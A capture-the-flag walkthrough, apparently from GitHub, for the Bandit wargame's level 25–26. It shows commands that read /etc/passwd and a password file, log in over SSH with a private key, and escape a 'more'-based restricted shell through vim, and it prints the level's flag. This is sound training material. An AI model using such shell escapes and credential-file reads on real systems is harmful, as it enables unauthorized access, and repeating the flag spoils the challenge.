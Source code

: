1. connect to Bandit Labs
    * run `bandit-25-conn.sh`
2. run the following    
```bash
#bandit25@bandit:~$ 
cat /etc/passwd | grep bandit26
/usr/bin/showtext
more /usr/bin/showtext
cat bandit26.sshkey 
ssh -i bandit26.sshkey -t bandit26@localhost cat text.txt

# Ok from here it gets interesting...
# Since you will get auto logged out after successful login.
# The key lays in the fact that the "shell" is actually just a MORE cmd. 
# Because of this, we can access VIM from the MORE Psuedo shell
# VIM allows us to carry out commands from inside its text editor.

# Step 1 - Make your command shell / terminal application VERY small, no more than 2-3 lines tall. (Windows Terminal/Powershell window/Linux Terminal, etc)
# Step 2 - type "v" in the MORE Psueudo Shell to access VIM
# Step 3 - type `:e /etc/bandit_pass/bandit26`

```
3. copy the flag/key '5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z'